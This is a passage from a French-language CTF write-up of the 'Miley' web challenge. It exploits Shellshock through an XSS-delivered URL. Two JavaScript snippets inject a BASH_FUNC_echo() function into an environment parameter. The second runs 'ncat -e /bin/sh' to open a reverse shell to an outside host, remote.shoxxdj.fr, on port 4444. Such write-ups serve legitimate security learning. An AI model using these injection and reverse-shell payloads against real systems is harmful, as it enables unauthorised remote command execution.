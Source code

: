 ![](/medias/writeups/miley-a-ctf-challenge-story/image-14.png)

Nous faisons donc face à une version de Bash sensible à Shellshock, pour se simplifier la tache, copions les lignes étranges du code source sur google :

![Visiblement cette méthode de privesc à déja été utilisée en CTF .. #ShameOnMe](/medias/writeups/miley-a-ctf-challenge-story/image-15.png)

Nous pouvons alors appliquer la méthode d'éxécution décrite sur [ce blog](https://tttang.com/archive/1450/).

Adaptons ensuite notre script permettant d'effectuer la XSS et d'obtenir le résultat :

```javascript
var url =
  "/admin_interface_JntjKPI5Awrqih_cant_guess/the_impossible_to_guess_webpage_dedicated_to_miley.php?envs[BASH_FUNC_echo()]=()%20{%20ls%20/bin;%20}";
```

Nous recevons alors la liste des binaires présents sur le système, parmi eux, ncat va nous permettre d'obtenir un reverse shell.

```javascript
var url =
  "/admin_interface_JntjKPI5Awrqih_cant_guess/the_impossible_to_guess_webpage_dedicated_to_miley.php?envs[BASH_FUNC_echo()]=()%20{%20ncat%20-e%20/bin/sh%20remote.shoxxdj.fr%204444;%20}";
```

![Obtention du reverse shell](/medias/writeups/miley-a-ctf-challenge-story/image-16.png)

Pour le flag, il suffit de se rendre dans le dossier /home/miley

![Got flag !](/medias/writeups/miley-a-ctf-challenge-story/image-17.png)

[Les sources du challenges sont disponibles sur mon github.](https://github.com/shoxxdj/sthack-tasks/tree/main/2023/Web/miley)
